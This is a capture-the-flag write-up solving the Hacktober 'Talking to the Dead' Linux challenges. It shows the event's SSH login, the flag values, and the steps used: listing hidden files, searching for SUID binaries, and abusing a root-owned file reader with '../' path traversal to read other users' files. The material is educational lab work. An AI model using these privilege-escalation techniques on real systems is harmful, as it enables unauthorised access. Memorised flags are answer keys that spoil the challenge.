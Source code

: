 #### Talking to the Dead 1
DESCRIPTION
```
Talking to the Dead 1

Author: syyntax

We've obtained access to a server maintained by spookyboi. There are four flag files that we need you to read and submit (flag1.txt, flag2.txt, etc). Submit the contents of flag1.txt.

ssh hacktober@env.hacktober.io

Password: hacktober-Underdog-Truth-Glimpse

```

1. Connect to the server through SSH.
  ```   
  Last login: Mon Oct 19 04:27:08 2020 from 106.197.11.146
  luciafer@3191a213533a:/$ whoami
  luciafer
  ```
    -> We are logged in as luciafer
  
2. We need to find flag1.txt for chall 1 of Linux.
    
    -> The flag is in /home/luciafer/Documents/flag1.txt
    
  ```
  luciafer@3191a213533a:/home$ ls
  luciafer  spookyboi
  luciafer@3191a213533a:/home$ cd luciafer/
  luciafer@3191a213533a:~$ ls
  Documents  Downloads  Pictures Videos
  luciafer@3191a213533a:~$ cd Documents/
  luciafer@3191a213533a:~/Documents$ ls 
  flag1.txt
  luciafer@3191a213533a:~/Documents$ cat flag1.txt
  flag{cb07e9d6086d50ee11c0d968f1e5c4bf1c89418c}
  ```
FLAG : flag{cb07e9d6086d50ee11c0d968f1e5c4bf1c89418c}
-----------------------------------------------------


#### Talking to the Dead 2
DESCRIPTION
```
Talking to the Dead 2
Author: syyntax

There's a hidden flag that belongs to luciafer. Submit the contents of the hidden flag2.txt.

ssh hacktober@env.hacktober.io
Password: hacktober-Underdog-Truth-Glimpse
```
1. Connect to the SSH which is same for all the linux challenges.
2. The Description says the file belongs to "luciafer". 
3. So looking in "/home/luciafer/Documents" 
  ```
  luciafer@3191a213533a:~/Documents$ ls -al
  total 20
  drwxrwxr-x 1 luciafer luciafer 4096 Oct  6 36
  drwxr-xr-x 1 luciafer luciafer 4096 Oct  5 14:54 ..
  -rw-rw-r-- 1 luciafer luciafer   47 Oct  6 08:36 .flag2.txt
  -rw-rw-r-- 1 luciafer luciafer   47 Oct  5 14:55 flag1.txt

  luciafer@3191a213533a:~/Documents$ cat .flag2.txt
  flag{728ec98bfaa302b2dfc2f716d3de7869f3eadcbf}
  ```
  
  The flag2.txt was a hidden file so using "ls -al" to list all files hidden and otherwise.
  Reading the contents of ".flag2.txt"
  
  flag{728ec98bfaa302b2dfc2f716d3de7869f3eadcbf}
  -----------------------------------------------
 

#### Talking to the Dead 4
DESCRIPTION
```
Talking to the Dead 4
Author: syyntax

We suspect spookyboi doesn't use the root account for this server. There must be some mechanism used to read the flag4.txt file without gaining root. Submit the contents of flag4.txt from the remote machine.

ssh hacktober@env.hacktober.io
Password: hacktober-Underdog-Truth-Glimpse
```
1. Connect with the SSH port.
2. Go to root directory.
  ```
luciafer@88a08162709b:/$ cd /root
luciafer@88a08162709b:/root$ ls
core  flag4.txt
luciafer@88a08162709b:/root$ ls -al
total 272
drwxr-xr-x 1 root root   4096 Oct  6 10:50 .
drwxr-xr-x 1 root root   4096 Oct 19 00:23 ..
-rw------- 1 root root   4408 Oct  6 14:04  bash_history
-rw-r--r-- 1 root root   3106 Dec  5  2019 .bashrc
drwxr-xr-x 3 root root   4096 Oct  6 08:43 .local
-rw-r--r-- 1 root root    161 Dec  5  2019 .profile
-rw------- 1 root root      0 Oct  6 08:42 .python_history
-rw------- 1 root root 245760 Oct  6 09:58 core
-rw------- 1 root root     47 Oct  6 08:41 flag4.txt
```
3. Only root user has the permission to read and write the contentsof flag4.txt
  -> Looking aruond the system I tried finding for a file with SUID permissions as root that can help us.
  ```
luciafer@3191a213533a:~/Documents$ find / -perm -u=s -type f 2> /dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/local/bin/ouija
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  ```

4. There is a file that stands out becase its not a common file found in a linux system. So I tried running this

```
luciafer@3191a213533a:~/Documents$ /usr/local/bin/ouija
OUIJA 6.66 - Read files in the /root directory
Usage: ouija [FILENAME]
EXAMPLES:	ouija file.txt
			ouija read.me
```
  ->This file cat's the contents of files in /root directory. ie  *cat /root/<filename>
  
```
luciafer@3191a213533a:~/Documents$ /usr/local/bin/ouija flag4.txt                                                                                                       flag{4781cbffd13df6622565d45e790b4aac2a4054dc}
```

flag{4781cbffd13df6622565d45e790b4aac2a4054dc}
---------------------------------------------------------

 
#### Talking to the Dead 3
DESCRIPTION
```
Talking to the Dead 3

Submit the contents of flag3.txt from the remote machine.

ssh hacktober@env.hacktober.io
Password: hacktober-Underdog-Truth-Glimpse

```

##### *I don't think this was the intended solution to solve this flag but I did solved it. So if you know how it was intended let'me know in my Discord @mrWh1te#3911

1. Connect through SSH to the server.

2. The challenge was to read the flag3.txt residing in the spookyboi's Documents, and is a allowed to be read by spookyboi and its group users.
   
   -> I couldn't figure out how to horizontally escalate the privilege to another user.

3. But , I know there is a file that reads the content of files with root privileges from the root directory.
   So I used */usr/local/ouija* to read the contents of *flag3.txt*

```
luciafer@8925bd5b7eeb:/home/spookyboi/Documents$ /usr/local/bin/ouija ../home/spookyboi/Documents/flag3.txt
flag{445b987b5b80e445c3147314dbfa71acd79c2b67} 
```
I used the full path because the command is run as:
cat /root/../<path> 

".." is used to specify the previous directory and thus allowing me to read the contnts of */home/spookyboi/Documents/flag3.txt*.

flag{445b987b5b80e445c3147314dbfa71acd79c2b67} 
-----------------------------------------------
